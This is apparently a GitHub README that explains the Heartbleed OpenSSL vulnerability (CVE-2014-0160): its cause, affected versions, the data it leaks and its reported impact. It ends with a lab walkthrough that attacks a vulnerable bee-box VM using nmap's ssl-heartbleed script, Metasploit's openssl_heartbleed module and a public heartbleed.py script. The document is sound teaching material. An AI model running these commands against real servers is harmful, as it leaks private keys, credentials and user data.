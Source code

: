 # Heartbleed Exploit on OpenSSL  (CVE 2014-0160)

## What is Heartbleed Exploit
### Why is this exploit called Heartbleed?

* It is named after the extension protocol which SSL/TLS protocols used called Heartbeat Extension

* While TLS handshaking it sends packet called heartbeat packet to another system to keep TLS connection up every time so that it save time that initialization of TLS take. It sends it multiple time nonstop.

### Why It Happens?

* There is programming mistake in OpenSSL Library called libssl which handles the execution of SSL/TSL protocol

### How Big it is?

* OpenSSL is mostly used by opensource webservers like Apache and nginx. So combined market share of just these on inter is 66% as per [Netcraft's April 2014 Web Server Survey](https://news.netcraft.com/archives/2014/04/02/april-2014-web-server-survey.html)[1]

### Who found it?

* It was found by group of security engineers while working on SafeGuard feature in Codenomicon's Defensics [security testing tools](https://www.synopsys.com/software-integrity/security-testing.html) [2]

* They reported this bug to NCSC-FI(National Cyber Security Center Finland) to take further action and tell OpenSSL

* 3rd of April 2014, [NCSC-FI](https://www.kyberturvallisuuskeskus.fi/en) [3] took up the task of verifying it, analyzing it further and reaching out to the authors of OpenSSL, software, operating system and appliance vendors, which were potentially affected.

### What versions are affected?

* Bug was introduced to OpenSSL in December 2011 and has been out in the wild since

* OpenSSL release 1.0.1 on 14th of March 2012.

### Is it is Solved Now?

* OpenSSL 1.0.1g released on 7th of April 2014 fixes the bug

## How Heartbleed Exploit  Works

* Normally the system sends the heatbeat extension packet of 65536 bytes with some payload to another system to keep TLS connection active . In return another system send back same payload with some padding. This packet goes to and fro multiple time just to keep TSL active to save time taken by TLS to initialise so that fast communication can be done.
![alt text](https://raw.githubusercontent.com/95keshav/openssl/main/heartbleed.png)
* But there is flow in the code of OpenSSL it does not check the lenght of packet.
![alt text](https://raw.githubusercontent.com/95keshav/openssl/main/heartbleed_hacked.png)
* Hackers use this flow to exploit the packet, They send packet with just 1 byte of data and keep other bytes empty, System do not confirm the lenght and save it in memory. When System sends back response it does not know that packet size was only of 1 byte. and it copy 65536 bytes from memory and sent back to hacker
* That data from memroy may contain SSL private keys, User credentials, System Memory address.
[To Get more information on Heartbleed click here](https://www.youtube.com/watch?v=WgrBrPW_Zn4)

## What Data is being leaked?
* Data being leaked comes under 4 categories

	1. Primary Key material

		* Encryption keys

	2. Secondary Key  material

		* Username and  Password

	3. Protected content

		* Financial Data

		* Private Communication e.g. email

		* Documents worth protected

	4. Collateral

		* Leaked  Memory  Content

		* Memory Addresses

		* Security measures  used  e.g. canaries used for overflow



## Affects of Heartbleed Exploit
1. [Millions of Vulnerable Systems Unpatched for Severe Bugs Including BlueKeep and Heartbleed Despite NSA Warnings](https://www.cpomagazine.com/cyber-security/millions-of-vulnerable-systems-unpatched-for-severe-bugs-including-bluekeep-and-heartbleed-despite-nsa-warnings/)
2. [Heartbleed bug crisis hit more government computers than previously disclosed](https://www.cbc.ca/news/politics/heartbleed-bug-cyberattack-canada-government-departments-1.3355993)
3. [900 SINs stolen due to Heartbleed bug: Canada Revenue Agency](https://globalnews.ca/news/1269168/900-sin-numbers-stolen-due-to-heartbleed-bug-canada-revenue-agency/)
4. [Devastating Heartbleed Flaw Was Used in Hospital Hack](https://time.com/3148773/report-devastating-heartbleed-flaw-was-used-in-hospital-hack/)
5. [Heartbleed](https://heartbleed.com/)



### OpenSSL Heartbleed Exploit



#### Tools needed

1. A bee-box virtual machine with OpenSSL in version 1.0.1~1.0.2  provided by bWAPP     

   [Download URL](https://sourceforge.net/projects/bwapp/files/bee-box/)

   **bWAPP and bee-box**: bWAPP is short for buggy web application, it allows us to implement penetration testing and ethical hacking projects. Over 100 web bugs are covered which include all major web vulnerabilities. The bee-box is the vulnerable virtual machine provided by bWAPP that can be used for CVE exploits.

2. A Kali-Linux virtual machine（Nmap；Metasploit；Python script）

   [Download URL](https://www.kali.org/downloads/)
   
   **Kali-Linux**: Kali-Linux is a kind of Debian Linux which is widely used in ethical hacking. It has hundreds of pre-installed ethical hacking tools. In this presentation, we will use it to hack the vulnerable bee-box.
   
   **Nmap**: Nmap is short for Network Mapper, it is an open-source network scanner started by Gordon Lyon. Nmap is a tool for probing computer networks and it is able to detect vulnerabilities.
   
   **Metasploit**: Metasploit is a well-known tool deals with computer security, it provides numerous methodologies for vulnerability exploitation. In this presentation, we will use it to execute the exploit of heartbleed vulnerability.
   
   

#### Method 1：

1. Open the 2 virtual machines.

2. Use ifconfig command to check the IP address of the bee-box.

3. Use Nmap tool in Kali-Linux to check the heartbleed vulnerability in the bee-box.

~~~
nmap -sV -p 8443 --script ssl-heartbleed.nse 192.168.2.130
~~~

4. Enter the Metasploit tool in Kali-Linux.

~~~
msfconsole
~~~

5. Search the auxiliary of heartbleed cve in Metasploit.

~~~
search cve-2014-0160
~~~

6. Pick the OpenSSL heartbleed auxiliary and use it.

~~~
use auxiliary/scanner/ssl/openssl_heartbleed
~~~

7. Set target host and port, and set verbose true to make the process seen, then exploit.

~~~
set RHOST 192.168.2.130
~~~

~~~
set RPORT 8443
~~~

~~~
set verbose true
~~~

~~~
exploit
~~~



#### Method 2:

1. Open the 2 virtual machines.

2. Use ifconfig command to check the IP address of the bee-box.

3. Use vim command to create a script  [heartbleed.py](https://github.com/ctfs/write-ups-2014/blob/master/plaid-ctf-2014/heartbleed/heartbleed.py) in Kali-Linux  in Kali-Linux.

4. Ran the script.

   ~~~
   python heartbleed.py 192.168.2.130 -p 8443
   ~~~

   

### References:
[1] Netcraft's April 2014 Web Server Survey, https://news.netcraft.com/archives/2014/04/02/april-2014-web-server-survey.html.

[2] Application Security and Quality Analysis Tools, https://www.synopsys.com/software-integrity/security-testing.html.

[3] NCSC-FI, https://www.kyberturvallisuuskeskus.fi/en,https://news.netcraft.com/archives/2014/04/02/april-2014-web-server-survey.html.

[4] Heartbleed bug News, https://heartbleed.com/.

[5] Heartbleed bug News, https://heartbleed.com/.

[6] Heartbleed bug News, https://heartbleed.com/.![image](https://user-images.githubusercontent.com/52240576/111923122-ed2db580-8a73-11eb-8305-ed1cb52efffe.png)

[7] https://www.concise-courses.com/hacking-tools/

[8] https://www.youtube.com/watch?v=SgJm0C6jzbo&t=47s

[9] https://github.com/ctfs/write-ups-2014/blob/master/plaid-ctf-2014/heartbleed/heartbleed.py

[10] https://sourceforge.net/projects/bwapp/files/bee-box/

[11] https://www.kali.org

[12]https://en.wikipedia.org/wiki/Metasploit_Project

[13]https://en.wikipedia.org/wiki/Nmap
